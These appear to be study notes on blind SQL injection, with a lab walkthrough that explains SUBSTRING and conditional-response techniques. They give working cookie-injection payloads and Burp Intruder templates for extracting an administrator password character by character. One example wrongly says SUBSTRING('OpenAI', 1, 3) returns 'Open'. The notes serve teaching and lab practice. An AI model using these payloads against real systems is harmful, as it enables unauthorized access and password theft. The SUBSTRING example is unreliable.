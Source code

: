 A blind vulnerability is a security issue where an attacker can exploit a weakness in a system, but the results of the attack are not immediately apparent. Unlike traditional vulnerabilities, the attacker cannot observe the outcome of the attack directly, and instead has to rely on indirect information to determine if the attack was successful. This makes it more challenging for both the attacker and the defender to detect and remediate the vulnerability.

For example, in a SQL injection attack, the attacker can directly observe the results of their injection attempts by modifying the SQL query in such a way that it returns sensitive information from the database. However, in a blind SQL injection attack, the attacker has to guess the results of the injection based on the time delay or the error messages generated by the system.

Blind vulnerabilities can occur in various types of systems and applications, such as web applications, databases, and other types of software. They are often harder to detect and prevent compared to traditional vulnerabilities, making them a significant threat to security. As such, it's important to implement secure coding practices and to perform regular security testing to help identify and remediate these types of vulnerabilities.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## what is sql substring
The SQL SUBSTRING function is a built-in string function in Structured Query Language (SQL) used to extract a portion of a string. It returns a new string that is a specified number of characters from a larger string, starting from a specified position. The syntax for the SUBSTRING function is as follows:
```sql
SUBSTRING(string, start_position, length)
```
"string" is the input string from which a portion is to be extracted.

"start_position" is the starting position in the string from where the extraction should begin. "1 base"

"length" is the number of characters to extract.

For example, if you have a string "OpenAI" and you want to extract the first three characters, you can use the following query:
```sql
SELECT SUBSTRING("OpenAI", 1, 3);
```
This will return the result "Open".

## Exploiting blind SQL injection by triggering conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```php
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, _the application does behave differently depending on whether the query returns any data_. If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.

suppose that two requests are sent containing the following TrackingId cookie values in turn this will help us determine the result 1 bit at a time:
```sql
…xyz' AND '1'='1 --welcome back
…xyz' AND '1'='2 --other responce
```
For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

```sql 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
We can continue this process to systematically determine the full password for the `Administrator` user.

## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle      SUBSTR('foobar', 4, 2)
other       SUBSTRING('foobar', 4, 2)
```
## Lab: Blind SQL injection with conditional responses

to determine password length
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a'--
```
Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

then find the password by
```sql
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```

